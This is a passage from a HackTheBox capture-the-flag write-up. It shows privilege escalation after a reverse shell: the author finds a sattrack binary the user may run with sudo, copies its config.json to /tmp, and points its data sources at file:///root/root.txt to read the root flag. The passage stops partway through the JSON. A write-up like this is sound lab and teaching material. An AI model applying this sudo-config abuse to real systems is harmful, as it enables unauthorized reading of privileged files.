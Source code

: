 Executing the script provided me with a reverse shell as Jovian.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/7fd19192-1fbc-4f66-a697-d18e33ccf893)

Upon examining Jovian's sudo permissions, I noted that Jovian can execute the following command without requiring a password as a sudo user:

```
/usr/local/bin/sattrack
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ce44577f-0652-4294-8851-fb0b16245646)

Executing the binary using sudo privileges revealed a satellite tracking system seeking a configuration file.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5c6fc183-0b0a-4302-980a-f32ba8bb725b)

The strings command, used in combination with grep, revealed that the binary was searching for the "config.json" file in the "/tmp" directory.

```bash
strings /usr/local/bin/sattrack  | grep -i "config"
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/86080985-cc77-4179-8009-56557111aa06)


Despite not finding the "config.json" file in the "/tmp" directory, a search using the find command located it in another location.

```bash
find / -name 'config.json' 2>/dev/null

#/usr/local/share/sattrack/config.json
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5aa05b76-7c90-4648-a3ea-4f85c5027986)

Copying this file to the temporary directory allowed me to examine its contents.

```bash
cp /usr/local/share/sattrack/config.json /tmp/config.json
```

Once the file was copied, I altered the content of "config.json" to retrieve the root flag, as the configuration file fetched data from URLs.

```json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "file:///root/root.txt"  #replaced the URLs & added this line fetch the root flag
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
```